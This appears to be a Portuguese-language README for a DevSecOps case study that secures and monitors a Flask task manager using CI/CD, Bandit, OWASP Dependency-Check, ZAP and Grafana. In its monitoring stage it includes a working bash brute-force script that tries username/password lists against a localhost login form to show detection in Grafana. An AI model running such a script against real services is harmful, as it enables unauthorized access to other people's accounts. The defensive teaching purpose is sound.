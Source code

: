 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![DFD](https://github.com/gustavomob/task-manager/blob/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/dockerfile.png)

2. Aplicação executada na porta 5000:

![app](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/app.png)
<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlab](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/gitlabci.png)

2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-initial.png)
<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/bandit.png)

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/fixenv.png)

4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency_check](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/owasp-dependecy-check.png)

5. Artefato gerado com vulnerabilidades no código JavaScript:

![artefact-dependency](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/zap-attack-tools.png)

2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/review-pipeline.png)

2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:

![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus-grafana](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-finished.png)

<br />
